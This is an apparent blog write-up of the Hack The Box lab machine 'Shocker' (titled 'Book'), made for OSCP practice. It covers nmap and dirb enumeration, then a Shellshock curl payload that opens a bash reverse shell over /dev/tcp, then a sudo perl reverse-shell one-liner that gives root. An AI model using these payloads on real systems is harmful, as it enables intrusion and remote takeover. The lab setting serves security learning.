 ```yaml
---
layout: single_c
title:  "Hack The Box - Book Writeup"
date:   2020-07-05 10:43:16 +0530
toc: true
categories: HTB
tags: OSCP
classes: wide
---
```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/shocker.png){: .align-center}

## Description:
This is an easy linux box that is vulnerable to `shellshock`. Doing this as part of my OSCP preparation.

## Enumeration

Add `shocker` to `hosts` and start an `nmap` scan.

### Nmap

```bash
kali@kali:~$ sudo nmap -sS -A shocker.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-12 23:09 EDT
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```

### Dirb

```bash
kali@kali:~/Desktop/tools/autorecon/results/shocker.htb/scans$ dirb http://shocker.htb

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Aug 13 09:43:37 2020
URL_BASE: http://shocker.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://shocker.htb/ ----
+ http://shocker.htb/cgi-bin/ (CODE:403|SIZE:294)
```

Initial scan reveals a `cgi-bin` directory with `403` response.

At this point I had done literally everything possible for an initial foothold, but I could not find anything useful. After some clues from the name of the box and forums, I came to the conclusion that the box is vulnerable to `shellshock`.

Let's run `dirb` to see if there is any file in `cgi-bin` directory as this is the possible entry point for `shellshock`

```bash
kali@kali:~/Desktop/htb/shocker$ dirb http://shocker.htb/cgi-bin/ -X .sh

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Aug 13 11:14:02 2020
URL_BASE: http://shocker.htb/cgi-bin/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.sh) | (.sh) [NUM = 1]

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://shocker.htb/cgi-bin/ ----
+ http://shocker.htb/cgi-bin/user.sh (CODE:200|SIZE:118)

-----------------
END_TIME: Thu Aug 13 11:32:47 2020
DOWNLOADED: 4612 - FOUND: 1
```

Alright, we have a hit.

Looking at the contents of the file

```bash
Content-Type: text/plain

Just an uptime test script

 10:26:56 up 11:16,  0 users,  load average: 0.01, 0.01, 0.00


```

Nothing special. Lets start trying out payloads to trigger `shellshock`.


## User Shell

We can execute the following payload to get a reverse shell.

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'" shocker.htb/cgi-bin/user.sh
```

Start a listener to receive the shell.

```bash
kali@kali:~/Desktop/tools/autorecon/results/shocker.htb/scans$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.4] from shocker.htb [10.10.10.56] 52198
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## Root Shell

The user has permission to run `perl` as `sudo`.

```bash
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can execute a `perl` reverse shell to get `root`.

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Start a listener to receive the shell.

```bash
kali@kali:~/Desktop/tools$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from shocker.htb [10.10.10.56] 40916
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

And we are root!